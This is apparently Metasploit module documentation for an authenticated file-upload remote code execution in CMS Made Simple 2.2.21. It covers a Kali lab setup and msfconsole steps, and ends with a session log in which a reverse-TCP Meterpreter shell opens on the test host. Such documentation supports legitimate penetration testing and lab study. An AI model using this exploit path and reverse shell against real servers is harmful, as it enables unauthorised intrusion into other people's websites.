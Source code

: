 ## Vulnerable Application

CMS Made Simple <= v2.2.21 allows an authenticated administrator to upload files
with the `.phar` or `.phtml` extensions, enabling execution of PHP code
leading to RCE. The file can be executed by accessing its URL in the
/uploads/ directory.

## Installation

### Kali Linux 2024.3

Install PHP dependencies:
```
sudo apt install -y php-gd php-mbstring php-intl php-xml php-curl php-zip php-mysql mariadb-server mariadb-client apache2 libapache2-mod-php8.4 unzip wget 
```

Start mariadb and apache:
```
sudo systemctl start apache2
sudo systemctl start mariadb
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `cmsms`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'msfpass';
CREATE DATABASE cmsms;
GRANT ALL PRIVILEGES on cmsms.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download CMSMadeSimple, extract it and move it to `/var/www/html`:
```
wget https://s3.amazonaws.com/cmsms/downloads/15179/cmsms-2.2.21-install.zip
unzip cmsms-2.2.21-install.zip                
sudo mv cmsms-2.2.21-install.php /var/www/html
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

The application should be now available at `http://localhost/cmsms-2.2.21-install.php/`,
navigate there in a browser to complete the setup wizard.
On the tests page, `Testing if we can change INI settings` warning can be ignored.
It will ask you for the database credentials created above, input them and enter `cmsms` for database name.

Once complete, go to `http://localhost/admin/login.php`, you should see an admin login panel.

## Verification Steps

1. Install CMSMadeSimple
2. Start msfconsole
3. Do: `use exploit/multi/http/cmsms_file_manager_auth_rce`
4. Do: `set RHOST [IP]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The username for the CMSMS admin panel. Default is empty string

### PASSWORD
The password for the CMSMS admin panel. Default is empty string

## Scenarios

### CMSMadeSimple v2.2.21 on Kali Linux 2024.3

```
msf6 > use exploit/multi/http/cmsms_file_manager_auth_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set username admin
username => admin
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set password password
password => password
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > run
[*] Started reverse TCP handler on 192.168.232.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (40004 bytes) to 192.168.232.128
[*] Meterpreter session 1 opened (192.168.232.128:4444 -> 192.168.232.128:42794) at 2025-03-22 02:53:16 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
Meterpreter : php/linux
meterpreter >
```
